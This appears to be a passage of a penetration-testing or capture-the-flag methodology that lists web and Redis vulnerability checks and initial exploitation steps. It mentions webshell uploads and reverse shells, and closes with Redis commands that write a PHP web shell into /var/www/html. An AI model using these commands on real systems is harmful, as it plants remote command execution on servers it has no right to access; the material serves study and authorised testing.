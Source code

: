 ## Vulnerability Analysis

### Web Application Vulnerabilities

1. **Check for common vulnerabilities**:
   - SQL injection
   - Command injection
   - File upload vulnerabilities
   - Authentication bypass

2. **Investigate discovered directories and endpoints**:
   - Look for admin panels
   - Check for exposed configuration files
   - Look for development/backup files

### Redis Vulnerabilities

1. **Check authentication requirements**:
   - Attempt to connect without authentication
   - Check for default credentials

2. **Check redis version for known vulnerabilities**:
   - Research CVEs for the specific version

### Additional Service Vulnerabilities

1. **Analyze all discovered services for vulnerabilities**
2. **Check for misconfigurations in service settings**
3. **Review any identified versions for known exploits**

## Initial Exploitation

### Method 1: Web Application Exploitation

1. **Identify exploitable vulnerability**:
   - Examples: SQL injection, file upload, LFI/RFI

2. **Gain initial shell access**:
   - Upload webshell if file upload is available
   - Inject command if command injection is found
   - Set up reverse shell

### Method 2: Redis Exploitation

1. **If Redis is unprotected**:
   ```bash
   # Connect to Redis
   redis-cli -h <target_ip>
   
   # Check if we can write files
   config set dir /var/www/html/
   config set dbfilename shell.php
   set test "<?php system($_GET['cmd']); ?>"
   save
   ```

